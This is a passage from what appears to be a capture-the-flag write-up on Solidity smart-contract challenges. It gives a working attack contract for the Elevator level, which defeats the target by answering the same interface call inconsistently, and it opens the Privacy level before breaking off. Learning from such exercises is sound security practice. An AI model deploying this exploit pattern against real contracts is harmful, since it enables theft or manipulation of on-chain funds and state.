 The trick to solve this challenge is to write a function that gives a different output based on the input.

```solidity
  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
```

When the `goTo()` function is called in the challenge contract, notice that in the if block, the `isLastFloor()` function must return `false` to enter the next code block, wherein, the same function must evaluate to `true`, to make the value of the `top` variable true and hence win the challenge. I have done this using a variable `count` that keeps a track of how many times the `isLastFloor()` function has been called. Since, we need the function to return `false` for the first call and `true` for the second call, I simply used the statement `return count > 1 ? true : false;` to realise this funtionality.

Find the attack contract given below - 

```solidity
contract hack {
    Elevator private immutable target;
    uint private count;
    constructor (address _target) {
        target = Elevator(_target);
    }

    function attack () external {
        target.goTo(1);
        require (target.top(), "challenge failed");
    }

    function isLastFloor (uint) external returns (bool) {
        count++;
        return count > 1 ? true : false;
    }
}
```

___
## Level 12 [Privacy]

This level helps us understand how data is stored in the blockchain.

```solidity
contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
```